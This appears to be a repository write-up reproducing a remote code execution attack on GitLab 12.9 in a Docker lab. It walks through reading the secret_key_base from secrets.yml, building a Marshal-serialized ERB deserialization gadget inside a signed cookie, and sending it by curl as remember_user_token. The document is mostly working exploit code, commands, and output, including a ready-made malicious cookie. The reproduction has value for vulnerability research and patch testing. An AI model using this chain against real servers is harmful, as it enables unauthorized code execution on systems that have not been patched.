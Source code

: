 # From reading to execution

## How to reprodice execute part of this attack manually

1. Get docker image of Gitlab 12

       docker run -d --hostname=gitlab.hv -p 443:443 -p 80:80 -p 2222:22 --name=gitlab gitlab/gitlab-ce:12.9.0-ce.0

    This is our **target**.

2. Get a `secret_key_base` variable

    Thinking we could reproduce read part of the attack and got `secrets.yml` (just cut it, ok?):

       docker exec -it gitlab cat /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
       ...
       secret_key_base: f498bc76a81ec3957296aaf9a9bf1e9d5ed61f3fd369397f30a671859fadca07bb2005a588313c50e32feb70466add4eb52b3600dec71290e59b40a7fd25b04c
       ...

3. Stop the target container.
4. Launch new gitlab container. This is our **working** gitlab container.
5. Set stolen `secret_key_base` to `secrets.yml`.
6. Get gitlab-rails console:

       /opt/gitlab/embedded/service/gitlab-rails/gitlab-rails console

    Try make a command

       irb(main):001:0> e = ERB.new("<%= `uname -a` %>")
       => #<ERB:0x00007ff4c606f1b8 @safe_level=nil, @src="#coding:UTF-8\n_erbout = +''; _erbout.<<(( `uname -a` ).to_s); _erbout", @encoding=#<Encoding:UTF-8>, @frozen_string=nil, @filename=nil, @lineno=0>
       irb(main):002:0> ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(e, :result, "@result", ActiveSupport::Deprecation.new)
       => "Linux gitlab.hv 5.11.11-arch1-1 #1 SMP PREEMPT Tue, 30 Mar 2021 14:10:17 +0000 x86_64 x86_64 x86_64 GNU/Linux\n"
       irb(main):003:0>

7. Creating a malicious cookie

    1. Set cookie serializer to marchall

           request = ActionDispatch::Request.new(Rails.application.env_config)
           request.env["action_dispatch.cookies_serializer"] = :marshal
           cookies = request.cookie_jar

    2. Creating a payload

           erb = ERB.new("<%= `echo Hello > /tmp/owned` %>")
           depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
    
    3. Add the payload to cookie

           cookies.signed[:cookie] = depr
           puts cookies[:cookie]

    Got the resulting cookie:

        BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiWSNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBlY2hvIEhlbGxvID4gL3RtcC9vd25lZGAgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--d5c06c0db17349cd18eb236ac97fcd507527ac4e

8. Stop workinf container and start the targt
9. Send out cookie to it

       curl http://gitlab.vh --cookie "remember_user_token=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiWSNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBlY2hvIEhlbGxvID4gL3RtcC9vd25lZGAgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--d5c06c0db17349cd18eb236ac97fcd507527ac4e"

